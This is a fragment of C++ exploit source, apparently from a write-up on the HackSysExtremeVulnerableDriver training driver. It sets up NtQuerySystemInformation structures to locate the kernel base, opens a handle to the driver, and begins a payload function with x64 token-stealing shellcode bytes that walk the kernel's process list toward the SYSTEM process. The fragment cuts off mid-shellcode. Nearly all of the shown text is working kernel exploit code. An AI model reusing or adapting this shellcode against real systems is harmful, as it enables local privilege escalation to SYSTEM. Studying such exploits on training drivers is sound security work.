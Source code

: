 ```cpp
    WORD                 Rank;
    WORD                 LoadCount;
    WORD                 NameOffset;
    CHAR                 Name[256];
}SYSTEM_MODULE, * PSYSTEM_MODULE;

typedef struct SYSTEM_MODULE_INFORMATION {
    ULONG                ModulesCount;
    SYSTEM_MODULE        Modules[1];
} SYSTEM_MODULE_INFORMATION, * PSYSTEM_MODULE_INFORMATION;

typedef enum _SYSTEM_INFORMATION_CLASS {
    SystemModuleInformation = 0xb
} SYSTEM_INFORMATION_CLASS;

typedef NTSTATUS(WINAPI* PNtQuerySystemInformation)(
    __in SYSTEM_INFORMATION_CLASS SystemInformationClass,
    __inout PVOID SystemInformation,
    __in ULONG SystemInformationLength,
    __out_opt PULONG ReturnLength
    );

HANDLE grab_handle() {

    HANDLE hFile = CreateFileA(DEVICE_NAME,
        FILE_READ_ACCESS | FILE_WRITE_ACCESS,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,
        NULL);

    if (hFile == INVALID_HANDLE_VALUE) {
        cout << "[!] No handle to HackSysExtremeVulnerableDriver" << endl;
        exit(1);
    }

    cout << "[>] Grabbed handle to HackSysExtremeVulnerableDriver: 0x" << hex
        << (INT64)hFile << endl;

    return hFile;
}

void send_payload(HANDLE hFile, INT64 kernel_base) {

    cout << "[>] Allocating RWX shellcode..." << endl;

    // slightly altered shellcode from 
    // https://github.com/Cn33liz/HSEVD-StackOverflowX64/blob/master/HS-StackOverflowX64/HS-StackOverflowX64.c
    // thank you @Cneelis
    BYTE shellcode[] =
        "\x65\x48\x8B\x14\x25\x88\x01\x00\x00"      // mov rdx, [gs:188h]       ; Get _ETHREAD pointer from KPCR
        "\x4C\x8B\x82\xB8\x00\x00\x00"              // mov r8, [rdx + b8h]      ; _EPROCESS (kd> u PsGetCurrentProcess)
        "\x4D\x8B\x88\xf0\x02\x00\x00"              // mov r9, [r8 + 2f0h]      ; ActiveProcessLinks list head
        "\x49\x8B\x09"                              // mov rcx, [r9]            ; Follow link to first process in list
        //find_system_proc:
        "\x48\x8B\x51\xF8"                          // mov rdx, [rcx - 8]       ; Offset from ActiveProcessLinks to UniqueProcessId
```